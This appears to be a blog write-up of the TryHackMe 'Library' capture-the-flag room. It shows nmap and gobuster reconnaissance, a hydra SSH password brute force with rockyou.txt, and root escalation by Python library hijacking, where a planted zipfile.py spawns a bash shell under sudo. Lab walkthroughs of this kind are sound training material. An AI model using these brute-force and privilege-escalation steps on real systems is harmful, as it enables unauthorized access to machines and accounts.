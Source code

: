 ```yaml
---
layout: post
title: "[THM] Library Writeup"
date: "2022-03-08"
categories: pentest
---
```


**Library** is a TryHackMe room boot2root machine for FIT and bsides guatemala CTF.

Link: [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

## Recon Phase
### nmap
```bash
root@mirai:~# nmap -T4 -sC -sV -p- --min-rate=1000 10.10.85.187 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-08 15:55 HKT
Nmap scan report for 10.10.85.187
Host is up (0.24s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.22 seconds
```

Since port 80 is open, lets do some passive recon on the website.

![](/static/img/thm-library-writeup/user1.png)
![](/static/img/thm-library-writeup/user2.png)

I listed down all the usernames I found in the website that is important for later use.
1. meliodas
2. root
3. www-data
4. Anonymous

Since there is no other webpages because menu bars is not clickable, lets scan for subdomains.

### gobuster

```bash
root@mirai:~# gobuster dir -u 10.10.85.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html --timeout 50s -t 170 -f
===============================================================
2022/03/08 01:36:48 Starting gobuster in directory enumeration mode
===============================================================
/images/              (Status: 200) [Size: 1640]
/icons/               (Status: 403) [Size: 292]
/index.html           (Status: 200) [Size: 5439]
/robots.txt           (Status: 200) [Size: 33]
```
Opening the `robots.txt` on the browser gives the following text.

![](/static/img/thm-library-writeup/rockyou.png)

"rockyou"??? Seems familiar because there's this famous wordlist named `rockyou.txt`, maybe its a hint for us to bruteforce something?

Lets try to bruteforce the port 22 (SSH) with hydra!

### hydra

```bash
hydra -L meliodas users -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.187 -t 4
```

![](/static/img/thm-library-writeup/hydra.png)


Successfully cracked the credential with a password of `iloveyou1`

Login to the ssh and get the `user.txt` flag!

![](/static/img/thm-library-writeup/user3.png)

---

# Privilege Escalation: meliodas --> root

## python library hijacking 
As you can see when running `sudo -l` we can run the file `/home/meliodas/bak.py` which was owned by `root`.

![](/static/img/thm-library-writeup/sudo.png)

Lets analyze the code since we cannot modify the python file.

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

The code seems not vunerable to any code injection. So, As I am searching python `zipfile` module exploits in google, I came across to this blog post [privilege escalation via python library hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/).

Let's replicate what he did in the blog post.

- Create a file `os.py` in the same directory as `bak.py` and put the contents below.
	```python
	import pty
	pty.spawn('/bin/bash')
	```
- Run this command `sudo /usr/bin/python3 /home/meliodas/bak.py`
- see if it works

	![](/static/img/thm-library-writeup/os.png)

It doesnt work with os library, lets repeat the same steps and try it with `zipfile` library.

And we are now root!

![](/static/img/thm-library-writeup/root.png)

## Easiest way to gain root
1. Delete the `bak.py` file
2. Create a new one and put the contents below
	```python
	import pty
	pty.spawn('/bin/bash')
	```
	
3. and run it

![](/static/img/thm-library-writeup/root2.png)

Thank you!